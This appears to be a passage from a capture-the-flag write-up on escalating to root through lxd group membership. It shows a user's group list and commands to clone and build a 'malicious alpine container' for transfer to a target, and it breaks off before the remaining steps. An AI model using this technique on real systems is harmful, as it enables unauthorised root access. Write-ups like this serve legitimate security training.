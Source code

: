 <br>

## Another Bonus

If we didn't have full sudo privileges we still could have gotten access to the file system as root since we have access to lxc:

`id`

```
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

On your system build a malicious alpine container:

`git clone https://github.com/saghul/lxd-alpine-builder.git`

`cd lxd-alpine-builder`

`sudo ./build-alpine`

You should have a file similar to this:

```
alpine-v3.17-x86_64-20221209_2128.tar.gz
```

Transfer that over to the target system and then run the following commands:

![](images/bpen10.png)

And then:
